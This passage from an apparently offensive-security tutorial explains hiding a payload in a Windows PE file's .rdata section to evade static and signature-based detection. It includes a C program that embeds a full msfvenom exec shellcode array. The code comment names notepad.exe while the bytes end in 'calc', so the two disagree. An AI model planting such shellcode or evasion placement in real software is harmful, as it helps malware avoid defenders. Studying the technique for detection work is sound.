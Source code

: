 
### .rdata

The `.rdata` section of a PE file is primarly used to store all of the read only data, such as constants, strings, and other immutable information. The letter "`r`" in `.rdata` indicates this as any attempt to change these variables will cause access violations.

In terms of why `.rdata` may be selected by an attacker to store a payload is because it may allow the payload to slip past static detections. If a PE has a digital signiture, tampering with the `.text` section may invalidate that signiture, a payload in the `.rdata` section is less likely to be detected as its expected to store non-executable data. However, execution through `.rdata` is possible through using specific winAPI functions at runtime to remap memory permissions, namely using `VirtualProtect` and `VirtualAlloc` to execute the payload.

The code block below shows a basic implementation of payload placement into `.rdata`. This method below is very similar to the `.data` section above, the only change made was to precede the varaible `Rdata_RawData` with the `const` qualifier.

```c
#include <Windows.h>
#include <stdio.h>

// shellcode generated via msfvenom
// msfvenom -p windows/x64/exec CMD=notepad.exe -f c 
// payload saved in the .rdata section
const unsigned char Rdata_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Rdata_RawData var : 0x%p \n", Rdata_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}
```
